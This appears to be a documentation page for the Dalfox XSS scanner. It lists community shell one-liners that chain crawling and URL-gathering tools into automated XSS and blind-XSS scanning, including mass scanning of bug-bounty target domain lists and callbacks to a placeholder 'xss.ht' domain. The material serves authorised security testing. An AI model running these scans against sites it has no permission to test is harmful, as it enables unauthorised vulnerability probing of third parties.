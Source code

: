 ```yaml
---
title: One-Liner
redirect_from: /docs/tips/oneliner/
nav_order: 2
toc: true
layout: page
---
```


# Community One-Liners

* Scanning XSS from host / from [@cihanmehmet in awesome-oneliner-bugbounty](https://github.com/dwisiswant0/awesome-oneliner-bugbounty)
```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```
* [Automating XSS using Dalfox, GF and Waybackurls](https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75)
```bash
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```
* [Find XSS and Blind XSS, and send every request to burpsuite for more manual testing
](https://twitter.com/Alra3ees/status/1407058456323014659)
```bash
dalfox file hosts --mining-dom  --deep-domxss --ignore-return -b 'YOURS.xss.ht' --follow-redirects --proxy http://127.0.0.1:8080
```
* [dalfox scan to bugbounty targets / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#dalfox-scan-to-bugbounty-targets-1)
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
```
* [Recon subdomains and gau to search vuls Dalfox / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#recon-subdomains-and-gau-to-search-vuls-dalfox)
```bash
assetfinder testphp.vulnweb.com | gau |  dalfox pipe
```

